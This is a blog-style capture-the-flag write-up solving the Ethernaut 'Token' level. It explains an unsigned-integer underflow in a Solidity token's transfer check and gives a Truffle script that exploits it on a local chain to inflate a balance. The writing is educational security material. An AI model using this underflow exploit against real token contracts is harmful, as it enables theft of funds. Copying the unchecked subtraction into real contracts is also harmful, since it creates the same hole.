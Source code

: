 Title: Solving Zeppelin's Ethernaut CTF - Token
Date: 2018-06-10 22:00
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-token
Summary: Sixth post of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. In Token, we hack a basic token contract and manage our way to earn a huge amount of ethers.

## Introduction
The [Token contract](https://ethernaut.zeppelin.solutions/level/0x6545df87f57d21cb096a0bfcc53a70464d062512){:rel="noopener"} simulates a basic token built on the Ethereum blockchain. It is not a full [ERC20](https://theethereum.wiki/w/index.php/ERC20_Token_Standard), but hey, you gotta start somewhere. Our main goal is to 'steal' as many tokens as we can from the contract, so let's dive right into it.

## The Token contract
The contract is deployed with some initial supply of tokens, as you can see in its constructor. That initial supply is both set as the total supply of tokens and saved as the balance of the contract's deployer.
~~~solidity
function Token(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
}
~~~

The function `balanceOf` lets any caller see how many token a certain address has.
~~~solidity
function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
}
~~~

Finally, the `transfer` function is where the core business logic of the contract lives, and where we're gonna aim our weapons at:
~~~solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
~~~

It basically allows any caller to 'send' (i.e. change the balances in the contract's storage) a certain amount (`_value`) of tokens from his/her address to the one passed as an argument (`_to`).

While the first line *tries* to ensure the caller has enough tokens to make the transaction, lines 2 and 3 actually implement the swap between the source and destination addresses.

Focus on line 1 for now: `require(balances[msg.sender] - _value >= 0);`.

We know that `balances[msg.sender]` and `_value` are both `uint` variables, right ? Well, then you're witnessing a real Solidity underflow, which results from unsafely extracting an `uint` from another.Let me put it straight. The difference between two `uint`, is another `uint`, meaning that the difference will always be equal or greater than zero! Thus, the condition `balances[msg.sender] - _value >= 0` will always evaluate to true.

Following that line of thought, the second line of the function is where our balance is decreased. However, we can underflow that as well!. According to the challenge text, our account starts with 20 tokens. What if we tried transferred 21 tokens ?. The resulting operation would look like:

~~~solidity
balances[msg.sender] = 20 - 21;
~~~

Since a `uint` cannot take the value -1, instead the variable underflows and the result of the operation, stored as the caller's balance, is 2^256 - 1.

Having analyzed the contract's vulnerability, include its code in `contracts/Token.sol` and deploy it to the local blockchain by including the following snippet in `migrations/2_deploy_contracts.js`.

~~~javascript
let Token = artifacts.require('./Token.sol')
const TOKEN_INITIAL_SUPPLY = 20
module.exports = deployer => {
    deployer.deploy(Token, TOKEN_INITIAL_SUPPLY)
}
~~~

Then run `npx truffle migrate`.

## The exploit
In this case, the vulnerability is easy to exploit. The exploit consists of just calling the `transfer` function with a value greater than 20.
~~~javascript
const TokenContract = artifacts.require('Token')
const assert = require('assert')

async function execute(callback) {

    let contract = await TokenContract.deployed()

    let balance = await contract.balanceOf(web3.eth.accounts[0])
    assert.equal(balance, 20)
    console.log(`Initial balance: ${balance}`)

    await contract.transfer(web3.eth.accounts[1], 21)

    balance = await contract.balanceOf(web3.eth.accounts[0])
    assert.equal(balance > 20, true)
    console.log(`Final balance: ${balance} tokens`)

}

module.exports = execute
~~~

That's it. After running `npx truffle exec exploits/token.exploit.js`, you should see that the balance of the account if far greater than 20 tokens.

You can also [find the exploit code at my Github repo](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/token.exploit.js). Although you might find some differences between the code in the repository and the one included in this post, the exploits work exactly the same. I made some changes to the exploit written here to make it simpler and clearer.

Thanks for reading! In the [next part](https://notonlyowner.com/solving-zeppelin-ethernaut-ctf-delegation) of these series, we will tackle the [Delegation challenge](https://ethernaut.zeppelin.solutions/level/0x68756ad5e1039e4f3b895cfaa16a3a79a5a73c59){:rel="noopener"} and study the dangers of using a low-level call such as `delegatecall` in Solidity.
